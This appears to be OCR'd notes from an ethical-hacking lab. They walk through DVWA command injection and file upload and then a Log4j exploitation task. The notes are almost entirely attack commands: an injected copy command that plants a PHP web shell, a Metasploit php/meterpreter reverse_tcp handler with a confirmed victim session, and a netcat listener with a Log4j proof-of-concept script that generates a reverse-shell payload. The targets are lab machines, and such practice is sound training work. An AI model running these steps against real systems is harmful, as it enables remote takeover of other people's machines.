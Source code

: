 	
	Command Injection
	Ip address: |copy C:\wamp64\www\DVWA\hackable\uploads\high.jpeg C:\wamp64\www\DVWA\hackable\uploads\shell.php + Submit
	
	Terminal
	sudo su
	cd
	msfconsole
	use exploit/multi/handler
	set payload php/meterpreter/reverse_tcp
	set LHOST 10.10.1.13
	set LPORT 2222
	run 
	
	Firefox: http://10.10.1.22:8080/dvwa/hackable/uploads/shell.php
	Terminal: Meterpreter session has successfully been established with the victim system.
	sysinfo
	file upload vulnerability at different security levels.
-------
## Task 9: Gain Access by Exploiting Log4j Vulnerability

	[ubuntu]
	sudo apt-get update
	sudo apt-get install docker.io
	cd log4j-shell-poc/
	docker build -t log4j-shell-poc    -> setup log4j vulnerable server
	 -t: specifies allocating a pseudo-tty.
	docker run --network host log4j-shell-poc
	
	
	[parrot]
	Firefox
	http://10.10.1.9:8080
	
	Terminal-1
	sudo su
	cd log4j-shell-poc
	
	new terminal -2 - setup java
	sudo su
	tar -xf jdk-8u202-linux-x64.tar.gz 
	mv jdk1.8.0_202 /usr/bin
	
	To update the installed JDK path in the poc.py file.
	
	1st Terminal - /home/attacker/log4j-shell-poc
	pluma poc.py
	replace jdk1.8.0_20/bin/javac with /usr/bin/jdk1.8.0_202/bin/javac - 62
	replace jdk1.8.0_20/bin/java with /usr/bin/jdk1.8.0_202/bin/java - 87 & 99
	
	New terminal-3
	nc -lvp 9001  -> to initiate a netcat listener 
	
	1st Terminal - /home/attacker/log4j-shell-poc
	python3 poc.py --userip 10.10.1.13 --webport 8000 --lport 9001
	copy the payload generated in the send me: section.
	